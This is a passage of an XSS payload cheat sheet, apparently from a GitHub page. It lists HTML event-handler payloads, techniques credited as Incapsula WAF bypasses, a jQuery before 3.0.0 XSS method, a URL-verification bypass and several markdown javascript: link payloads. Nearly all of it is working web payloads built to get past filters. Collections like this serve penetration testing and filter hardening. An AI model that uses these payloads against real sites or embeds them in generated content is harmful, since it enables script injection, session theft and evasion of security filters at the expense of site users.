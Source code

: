 ```html
'">><div><meter onmouseover="alert(1)"</div>"
```

```html
>><marquee loop=1 width=0 onfinish=alert(1)>
```

**Incapsula WAF Bypasses** by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```html
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';>
```

```html
<img/src=q onerror='new Function`al\ert\`1\``'>
```

**jQuery < 3.0.0 XSS**
 by [@Ajay Kumar Tiwari](https://twitter.com/AjayKum34786487)

```js
$.get('http://sakurity.com/jqueryxss')
```

In order to really exploit this jQuery XSS you will need to fulfil one of the following requirements:

1) Find any cross domain requests to untrusted domains which may inadvertently execute script.
2) Find any requests to trusted API endpoints where script can be injected into data sources.

**URL verification bypasses (works without `&#x09;` too)**

```
javas&#x09;cript://www.google.com/%0Aalert(1)
```

**Markdown XSS**

```md
[a](javascript:confirm(1))
```

```md
[a](javascript://www.google.com%0Aprompt(1))
```

```md
[a](javascript://%0d%0aconfirm(1))
```

```md
[a](javascript://%0d%0aconfirm(1);com)
```

```md
[a](javascript:window.onerror=confirm;throw%201)
```

```md
[a]: (javascript:prompt(1))
```

```md
[a]:(javascript:alert(1))           //Add SOH Character
```
